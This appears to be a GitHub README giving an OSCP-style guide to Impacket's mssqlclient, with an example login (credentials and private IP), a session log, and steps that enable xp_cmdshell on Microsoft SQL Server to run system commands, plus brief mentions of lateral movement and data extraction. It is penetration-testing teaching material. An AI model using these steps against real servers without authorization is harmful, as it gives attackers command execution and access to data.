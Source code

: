 #  Penetration Testing with Impacket MSSQLClient "OSCP Guide"

This repository provides a comprehensive guide on how to perform advanced penetration testing using the Impacket `mssqlclient` tool. This guide covers the setup, configuration, and advanced usage scenarios for effective penetration testing.

## Table of Contents

1. [Introduction](#introduction)
2. [Installation](#installation)
3. [Connecting to a SQL Server](#connecting-to-a-sql-server)
4. [Enabling Advanced Options](#enabling-advanced-options)
5. [Executing Commands](#executing-commands)
6. [Advanced Usage](#advanced-usage)
7. [Security Considerations](#security-considerations)
8. [Resources](#resources)
9. [Contributing](#contributing)
10. [License](#license)

## Introduction

Impacket is a collection of Python classes for working with network protocols. `mssqlclient` is a tool within the Impacket suite designed to interact with Microsoft SQL Server. This guide provides advanced techniques for leveraging `mssqlclient` in penetration testing scenarios.

## Installation

To install Impacket, you need to have Python and pip installed. Follow these steps to install Impacket:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

## Connecting to a SQL Server

Use `mssqlclient` to connect to a SQL Server instance:

```bash
impacket-mssqlclient <username>:<password>@<hostname> -windows-auth
```

Example:

```bash
impacket-mssqlclient Malek:pass18113@192.168.212.182 -windows-auth
```

```plaintext
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SQLPLAYGROUND\Malek  dbo@master)> dir
ERROR: Line 1: Could not find stored procedure 'dir'.
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Malek  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (SQLPLAYGROUND\Malek  dbo@master)> RECONFIGURE;
SQL (SQLPLAYGROUND\Malek  dbo@master)> EXECUTE xp_cmdshell 'whoami';
output                        
---------------------------   
nt service\mssql$sqlexpress   

NULL                          
SQL (SQLPLAYGROUND\Malek  dbo@master)>
```

## Enabling Advanced Options

Before you can use certain advanced features like `xp_cmdshell`, you need to enable advanced options on the SQL Server.

### Step-by-Step Guide

1. **Enable advanced options**:
    ```sql
    EXEC sp_configure 'show advanced options', 1;
    RECONFIGURE;
    ```

2. **Enable xp_cmdshell**:
    ```sql
    EXEC sp_configure 'xp_cmdshell', 1;
    RECONFIGURE;
    ```

## Executing Commands

Once `xp_cmdshell` is enabled, you can execute system commands directly from the SQL Server.

### Example Commands

- **Check the current user**:
    ```sql
    EXEC xp_cmdshell 'whoami';
    ```

- **List directory contents**:
    ```sql
    EXEC xp_cmdshell 'dir';
    ```

- **Create a new directory**:
    ```sql
    EXEC xp_cmdshell 'mkdir C:\path\to\new_directory';
    ```

## Advanced Usage

Here are some advanced scenarios and techniques for using `mssqlclient`:

- **Uploading and Executing Scripts**:
    You can upload and execute scripts or binaries using `xp_cmdshell`.

- **Pivoting and Lateral Movement**:
    Use `mssqlclient` in combination with other tools to pivot and move laterally within the network.

- **Extracting Data**:
    Use SQL queries to extract sensitive data from the database.

## Security Considerations

Using tools like `mssqlclient` comes with significant security risks. Here are some considerations:

- Ensure you have proper authorization before performing penetration tests.
- Be aware of the potential impact of your actions on the target systems.
- Follow responsible disclosure practices if you discover vulnerabilities.

## Resources

- [Impacket GitHub Repository](https://github.com/fortra/impacket)
- [SQL Server Documentation](https://docs.microsoft.com/en-us/sql/sql-server/)
- [Tips](https://www.mssqltips.com/sqlservertip/1020/enabling-xpcmdshell-in-sql-server/)

## Refrence 

Offsec 
```

You can copy and paste this markdown content directly into your `README.md` file on GitHub.
